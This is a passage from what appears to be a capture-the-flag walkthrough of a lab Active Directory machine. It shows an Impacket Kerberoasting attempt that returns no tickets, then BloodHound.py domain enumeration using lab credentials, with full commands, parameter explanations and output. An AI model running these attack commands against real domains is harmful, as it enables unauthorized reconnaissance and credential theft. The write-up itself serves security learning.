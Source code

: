 

#### Kerberoasting

Now that I have valid domain creds, I tried to Kerberoast, but no
tickets came back:



    root@kali# GetUserSPNs.py -request -dc-ip 10.10.10.192 'blackfield.local/support:#00^BlackKnight'
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation

    No entries found!



### Bloodhound

#### Collection

There's a BloodHound injestor that can be run from Linux,
[BloodHound.py](https://github.com/fox-it/BloodHound.py). I had a hell
of a time getting to work with Python3.8 that was running on Kali, but
it worked fine when I installed with Python2,
`python -m pip install bloodhound`.

The parameters for `bloodhound-python` took a bit of playing with:

-   `-c ALL` - All collection methods
-   `-u support -p #00^BlackKnight` - Username and password to auth as
-   `-d blackfield.local` - domain name
-   `-dc dc01.blackfield.local` - DC name (it won't let you use an IP
    here)
-   `-ns 10.10.10.192` - use 10.10.10.192 as the DNS server



    root@kali# bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
    INFO: Found AD domain: blackfield.local
    INFO: Connecting to LDAP server: dc01.blackfield.local
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 18 computers
    INFO: Connecting to LDAP server: dc01.blackfield.local
    INFO: Found 315 users
    INFO: Connecting to GC LDAP server: dc01.blackfield.local
    INFO: Found 51 groups
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC01.BLACKFIELD.local
    INFO: Done in 00M 04S



It produced four `.json` files:



    root@kali# ls
    computers.json  domains.json  groups.json  users.json
